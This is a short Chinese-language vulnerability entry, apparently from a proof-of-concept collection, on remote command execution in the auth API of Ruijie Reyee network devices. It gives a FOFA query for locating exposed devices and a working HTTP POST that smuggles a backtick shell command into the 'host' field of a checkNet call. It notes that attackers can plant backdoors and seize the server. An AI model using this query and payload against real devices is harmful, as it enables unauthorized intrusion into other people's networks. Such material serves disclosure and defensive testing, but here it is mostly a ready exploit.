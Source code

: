 # 锐捷系统接口auth存在远程命令执行漏洞

锐捷睿易是锐捷网络面向商务市场的子品牌。拥有便捷的网络、交换机、路由器、无线、安全、云服务六大产品线，解决方案涵盖商业零售、酒店、kt、网吧、监控与安全、物流、仓储、制造。通过该漏洞，攻击者可以任意执行服务器端的代码，编写后门，获得服务器权限，进而控制整个web服务器。

## fofa

```javascript
body="cgi-bin/luci" && body="#f47f3e"
```

## poc

```javascript
POST /cgi-bin/luci/api/auth HTTP/1.1
Host: 
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

{"method":"checkNet","params":{"host":"`echo c149136B>AD0D5b8c.txt`"}}
```



## 漏洞来源

- https://mp.weixin.qq.com/s/Vh64WEnrIDBBsZ6EuJqx4Q